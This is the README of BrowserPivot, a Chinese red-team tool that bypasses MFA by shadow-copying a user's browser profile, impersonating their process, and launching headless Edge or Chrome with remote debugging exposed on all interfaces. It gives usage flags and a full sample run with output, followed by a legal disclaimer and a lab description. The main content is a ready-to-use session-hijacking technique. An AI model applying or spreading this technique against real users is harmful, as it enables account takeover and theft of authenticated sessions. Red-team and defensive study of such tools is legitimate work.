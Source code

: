 # BrowserPivot

BrowserPivot是一个基于卷影复制和浏览器调试模式功能以达到绕过MFA验证的自动化辅助工具。

# 使用场景

- 无法使用明文账号密码登录网站
- 无法使用Cookies登录网站

# 使用方法

```
-p 需要模拟的进程PID，通常为要访问的资源用户PID
-l 启动非占用本地端口
-b 请选择chrome或者msedge，其他选择请自行修改代码
```



```
C:\Users\rootrain\source\repos\BrowserPivot\BrowserPivot\bin\Debug>BrowserPivot.exe -p 10732 -l 2555 -b msedge

 ____                                  _____ _            _
|  _ \                                |  __ (_)          | |
| |_) |_ __ _____      _____  ___ _ __| |__) |__   _____ | |_
|  _ <| '__/ _ \ \ /\ / / __|/ _ \ '__|  ___/ \ \ / / _ \| __|
| |_) | | | (_) \ V  V /\__ \  __/ |  | |   | |\ V / (_) | |_
|____/|_|  \___/ \_/\_/ |___/\___|_|  |_|   |_| \_/ \___/ \__|

[+] Volume: \\?\Volume{e8e4545b-7571-4c89-ba6f-e6cf232eb558}\
[+] Shadow copy ID: {9688E39D-BD6F-4115-B596-90C6BCC71D26}
[+] Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
[+] Copy directory \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Users\rootrain\AppData\Local\Microsoft\Edge\User Data to directory C:\Users\rootrain\AppData\Local\UwFwjfWgw9
[+] msedge path: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
[+] Process handle: True
[+] Impersonated user: DESKTOP-TAVA6P8\rootrain
[+] Start process: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe --user-data-dir=C:\Users\rootrain\AppData\Local\UwFwjfWgw9 --remote-debugging-port=2555 --remote-debugging-address=0.0.0.0 --headless about:blank
[+] Shadows deleted successfully
```



# 注意事项

```
1.如发现C盘磁盘占用过高，请清除卷影复制的目录，位于C:\Users\%USERNAME%\AppData\Local\
2.如果进程无法进行模拟，可以多试几个PID，或者手动启动进行并模拟
```

# 免责声明
本工具仅面向合法授权的企业安全建设行为或教学使用，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描和攻击。

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，作者将不承担任何法律及连带责任。

在安装并使用本工具前，请您务必审慎阅读、充分理解各条款内容，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

# 安恒-星火实验室
<h1 align="center">
  <img src="starfile.jpeg" alt="starfile" width="200px">
  <br>
</h1>

专注于实战攻防与研究，研究涉及实战攻防、威胁情报、攻击模拟与威胁分析等，团队成员均来自行业具备多年实战攻防经验的红队、蓝队和紫队专家。本着以攻促防的核心理念，通过落地 ATT&CK 攻防全景知识库，全面构建实战化、常态化、体系化的企业安全建设与运营。
